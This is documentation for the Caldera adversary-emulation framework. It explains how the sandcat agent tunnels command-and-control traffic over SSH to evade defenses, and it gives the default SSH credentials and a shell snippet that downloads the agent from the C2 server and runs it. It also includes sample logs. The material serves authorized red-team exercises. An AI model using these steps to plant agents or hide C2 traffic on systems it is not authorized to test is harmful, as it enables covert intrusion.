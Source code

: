 # C2 Communications Tunneling
In addition to built-in contact methods such as HTTP, DNS, TCP, and UDP, Caldera also provides support for tunneling C2 traffic, which supporting agents can use to mask built-in contact methods for added defense evasion.
Currently, the only available tunneling method is SSH tunneling, which is only supported by the sandcat agent.

## SSH Tunneling
Sandcat agents can use SSH tunneling to tunnel C2 contact mechanisms, namely HTTP(S). Caldera also provides built-in support to spin up a minimal local SSH server for SSH tunneling.

### Usage - Serverside
Within the Caldera configuration file, adjust the following entries according to your environment:
- `app.contact.tunnel.ssh.host_key_file`: File name for the server's SSH private host key. You can generate your own SSH private host key for the Caldera server. The file must reside in the `conf/ssh_keys` directory. If the Caldera server cannot find or read the provided private host key, it will generate a temporary RSA host key to use for operations. Although this would cause security warnings under normal circumstances, the sandcat agent implementation of SSH tunneling does not attempt to verify hosts, and thus should not be affected by changing or temporary host keys.
- `app.contact.tunnel.ssh.host_key_passphrase`: Passphrase for the server's SSH private host key. The server will use this passphrase to read the private host key file provided in `app.contact.tunnel.ssh.host_key_file`.
- `app.contact.tunnel.ssh.socket`: Indicates the IP address and port that the Caldera server will listen on for SSH tunneling connections (e.g. `0.0.0.0:8022`).
- `app.contact.tunnel.ssh.user_name`: User name that agents will use to authenticate to the Caldera server via SSH. The default value is `sandcat`.
- `app.contact.tunnel.ssh.user_password`: Password that agents will use to authenticate to the Caldera server via SSH. The default value is `s4ndc4t!`.

Once the configuration entries are set, simply start the Caldera server up as normal via the `server.py` Python program, and Caldera will automatically attempt to start an SSH server that listens on the specified socket (`app.contact.tunnel.ssh.socket`). 

The contact will first attempt to read in the host private key file specified by `app.contact.tunnel.ssh.host_key_file`, using the passphrase specified by `app.contact.tunnel.ssh.host_key_passphrase`. If it cannot read the file for whatever reason (e.g. file does not exist, or the passphrase is incorrect), then the server will generate its own temporary private key to use for the server. 

The SSH server should only be used between agents and the C2 server and should not be used to SSH into the Caldera server manually (e.g. to manage the server remotely).

### Usage - Agent
The sandcat agent is currently the only agent that supports SSH tunneling. To use it, the `server`, `tunnelProtocol`, `tunnelAddr`, `tunnelUser`, and `tunnelPassword` arguments must be used. 
- `server` value is the Caldera server endpoint that the tunnel will connect to - if the agent is tunneling HTTP communications through SSH, then `server` should be the HTTP socket for the Caldera C2 server (e.g. `http://10.10.10.15:8888`). 
- `tunnelProtocol` value is the name of the tunneling mechanism that the agent is using. For SSH, the value must be `SSH`. 
- `tunnelAddr` is the port number or IP:port combination that indicates which port or socket to connect to via SSH to start the tunnel (e.g. `8022` or `10.10.10.15:8022`). If only a port number is provided, the agent will try to connect to the IP address from `server` using the specified port. The server listening on the port/socket should be listening for SSH connections from agents.
- `tunnelUser` indicates which username to use to authenticate to `tunnelAddr` via SSH. This username should match the Caldera configuration value for `app.contact.tunnel.ssh.user_name`.
- `tunnelPassword` indicates which password to use to authenticate to
`tunnelAddr` via SSH. This password should match the Caldera configuration value for `app.contact.tunnel.ssh.user_password`.

To tunnel different contacts through SSH tunneling, simply adjust the `c2` and `server` values as needed.

When authenticating to the provided SSH server, the sandcat agent will use the username/password provided by the `tunnelUser` and `tunnelPassword` arguments. Whatever credentials the agent uses must reflect the Caldera configuration values specified in `app.contact.tunnel.ssh.user_name` and `app.contact.tunnel.ssh.user_password`. The agent will then open a random local port to act as the local endpoint of the SSH tunnel. This local endpoint becomes the `upstream_dest` value for the agent.

The following commandline will start a sandcat agent that will open up an SSH tunnel to the Caldera c2 server at `192.168.140.1:8022`, and the tunneled communications will be sent to the c2 server's HTTP endpoint at `192.168.140.1:8888`:
```sh
server="http://192.168.140.1:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;
chmod +x sandcat.go;
./sandcat.go -server $server -v -tunnelProtocol SSH -tunnelAddr 8022 -tunnelUser sandcat -tunnelPassword s4ndc4t!
```

The above Linux agent will produce verbose output similar to the following:
```
SStarting sandcat in verbose mode.
[*] Starting SSH tunnel
Starting local tunnel endpoint at localhost:52649
Setting server tunnel endpoint at 192.168.140.1:8022
Setting remote endpoint at localhost:8888
[*] Listening on local SSH tunnel endpoint
[*] SSH tunnel ready and listening on http://localhost:52649.
[*] Attempting to set channel HTTP
Beacon API=/beacon
[*] Set communication channel to HTTP
initial delay=0
server=http://192.168.140.1:8888
upstream dest addr=http://localhost:52649
group=red
privilege=User
allow local p2p receivers=false
beacon channel=HTTP
Local tunnel endpoint=http://localhost:52649
[*] Accepted connection on local SSH tunnel endpoint
[*] Listening on local SSH tunnel endpoint
[*] Forwarding connection to server
[*] Opened remote connection through tunnel
[+] Beacon (HTTP): ALIVE
```

The agent connected to the C2 server via SSH at `192.168.140.1:8022` and opened a local SSH tunnel on local port 52649 that tunnels HTTP traffic to the C2 server at `192.168.140.1:8888`. This is the equivalent of running `ssh -L 52649:localhost:8888 sandcat@192.168.140.1 -p 8022 -N`.

Note that the agent's upstream destination endpoint is set to the local SSH tunnel endpoint at `http://localhost:54351` (the protocol is set to `http` since the agent is tunneling HTTP comms), while the true server value is the final tunnel destination at `http://192.168.140.1:8888`.

If running the Caldera c2 server with logging verbosity set to `DEBUG`, you may see output similar to the following when an agent connects via SSH tunneling:
```
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted SSH connection on 192.168.140.1, port 8022
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 192.168.140.100, port 43796
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:52 connection_made) SSH connection received from 192.168.140.100.
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Requesting key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Received key exchange request
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Beginning key exchange
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Completed key exchange
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Beginning auth for user sandcat
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2] Trying password auth
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Auth for user sandcat succeeded
2021-03-26 09:12:43 - DEBUG (contact_ssh.py:48 connection_requested) Connection request from 0.0.0.0:0d to localhost:8888
2021-03-26 09:12:43 - DEBUG (logging.py:79 log) [conn=2, chan=0] Set write buffer limits: low-water=16384, high-water=65536
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2] Accepted direct TCP connection request to localhost, port 8888
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Client address: 0.0.0.0
2021-03-26 09:12:43 - INFO  (logging.py:79 log) [conn=2]   Forwarding TCP connection to localhost, port 8888
2021-03-26 09:12:43 - DEBUG (contact_svc.py:64 handle_heartbeat) First time HTTP beacon from kliuok
```

Once the tunnel is established, operators can proceed as normal with agent activity and operations.